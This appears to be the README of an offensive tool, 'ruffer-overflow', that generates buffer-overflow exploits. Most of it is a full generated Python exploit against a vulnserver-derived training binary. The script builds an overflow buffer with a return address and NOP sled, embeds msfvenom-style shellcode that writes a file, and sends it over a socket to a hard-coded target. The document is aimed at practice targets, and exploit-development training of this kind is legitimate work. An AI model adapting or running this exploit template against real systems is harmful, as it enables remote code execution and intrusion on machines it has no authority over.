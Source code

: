 # ruffer-overflow

buffer overflow detection and exploitation tool for VERY low hanging fruit 

----

## example (secureserverind.exe)

note: secureserverind.exe is actually from the [vulnserver project by stephenbradshaw](https://github.com/stephenbradshaw/vulnserver) 
this command line interaction generates a python file designed to exploit a buffer overflow
![example](/examples/secureserverind.exe/command_line_output.png)

``` python3
#!/usr/bin/python3

# generated by ruffer-overflow [2020-07-28 18:49:51.755495]

#region targeting
BASE_ADDRESS = "62501060" # base address of essfunc.dll
GENERATE_EXPLOIT_FILE = True
EXPLOIT_FILE = "exploit.bin"
EXECUTE_EXPLOIT = False
TARGET_ADDRESS = "192.168.150.245" # target host
TARGET_PORT = 9999 # exposed port on the target host
#endregion

#region imports
import struct
import socket
#endregion

#region payload
buf =  b''
buf += b'TRUN /.:/'
buf += b'A' * 2003
buf += struct.pack("<I", (int(BASE_ADDRESS, 16) + 576)) # little endian pack
buf += b'\x90' * 10 # safety nops

# payload (easy swap from msfvenom)
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x65\x63\x68\x6f\x20\x22\x6e\x6f\x20\x73\x74"
buf += b"\x61\x6e\x64\x61\x72\x64\x73\x22\x20\x3e\x20\x63\x6f"
buf += b"\x6d\x70\x72\x6f\x6d\x69\x73\x65\x2e\x74\x78\x74\x00"
#endregion

#region generate file
if GENERATE_EXPLOIT_FILE:
    with open(EXPLOIT_FILE, "wb") as exploit_file:
        exploit_file.write(buf)
#endregion

#region execute
if EXECUTE_EXPLOIT:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_ADDRESS, TARGET_PORT))
    print(s.recv(2048))
    s.send(buf)
    print(s.recv(2048))
    s.close()
#endregion

```
